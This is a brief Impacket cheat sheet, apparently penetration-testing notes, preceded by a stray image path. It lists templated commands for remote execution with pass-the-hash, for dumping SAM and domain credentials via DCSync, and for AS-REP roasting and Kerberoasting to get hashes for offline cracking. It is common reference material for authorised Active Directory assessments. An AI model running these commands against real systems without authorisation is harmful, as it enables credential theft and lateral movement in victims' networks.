 # impacket guide

## psexec | smbexec | wmiexec

```bash
impacket-psexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
impacket-smbexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
impacket-wmiexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
```

## secretsdump (dumps SAM / DCSync)

```bash
impacket-secretsdump DOMAIN/USER:['PASS']@IP [-just-dc] [just-dc-user USER]
# -just-dc: if IP is a domain-controller
```

## GetNPUsers

AS-REP Roasting (users with Kerberos pre-authentication disabled)

```bash
impacket-GetNPUsers DOMAIN/ -usersfile user.txt [-format hashcat] [-outputfile hash]
impacket-GetNPUsers DOMAIN/USER -no-pass -dc-ip IP [-format hashcat]
impacket-GetNPUsers -dc-ip IP -request DOMAIN/
```

## GetUserSPNs

Requesting TGTs for services to get all hashes

* msf: `use auxiliary/gather/get_user_spns`

```bash
impacket-GetUserSPNs DOMAIN/USER -hashes LM:NTLM_HASH -dc-ip DC_IP -request -outputfile hashes.kerberoast
impacket-GetUserSPNs DOMAIN/USER:['PASS'] -dc-ip DC_IP -request
# hashcat -m 13100
```
